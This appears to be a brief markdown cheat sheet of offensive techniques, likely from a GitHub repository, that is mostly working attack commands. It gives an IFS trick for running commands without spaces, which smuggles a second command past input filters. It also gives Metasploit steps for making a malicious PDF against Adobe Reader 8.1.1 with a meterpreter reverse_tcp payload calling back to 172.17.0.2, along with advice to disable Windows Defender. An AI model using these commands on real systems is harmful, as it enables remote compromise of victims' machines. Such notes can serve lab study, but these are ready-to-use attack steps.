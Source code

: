 # Misc exploit

Command execution without space:

`
IFS=_;command='ls_-l';$command
`

# Exploit Adobe example:

These two combinations work on Windows 10. Make sure to turn off windows defender...
`
exploit/windows/fileformat/adobe_pdf_embedded_exe with Adobe Reader 8.1.1
exploit/windows/fileformat/adobe_libtiff with Adobe Reader 8.1.1
`
Get adobe download from: ftp://ftp.adobe.com/pub/adobe/reader/win/8.x/

Steps:
`
use exploit/windows/fileformat/adobe_libtiff 
set FILENAME sample.pdf
set PAYlOAD windows/meterpreter/reverse_tcp
set LHOST 172.17.0.2
exploit 
[COPY OVER THE PDF FILE]
use exploit/multi/handler 
`

